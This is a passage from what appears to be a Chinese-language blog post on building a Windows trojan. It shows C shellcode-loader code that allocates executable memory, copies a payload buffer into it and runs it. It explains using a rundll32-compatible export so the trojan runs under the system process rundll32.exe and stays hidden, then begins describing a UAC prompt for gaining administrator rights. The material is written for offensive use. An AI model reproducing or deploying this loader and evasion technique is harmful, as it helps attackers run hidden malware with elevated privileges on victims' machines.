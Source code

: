 ```
	p = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (p != NULL)
	{
		memcpy(p, buf, sizeof(buf));
		CODE code = (CODE)p;
		code();
	}
	return;
} 
```

其中`extern "C" _declspec(dllexport) void __cdecl rundll32dllfun`是符合rundll32加载的固定函数定义格式。

当木马运行后，会在进程列表创建rundll32.exe，它是一个系统文件。

### UAC

为了使木马获取更高的权限，我开启了管理员权限申请：

![2019-05-21-17-48-31](../img/510b17bb37cdefdcae3bf661ecd26d3b.png)

点击是：

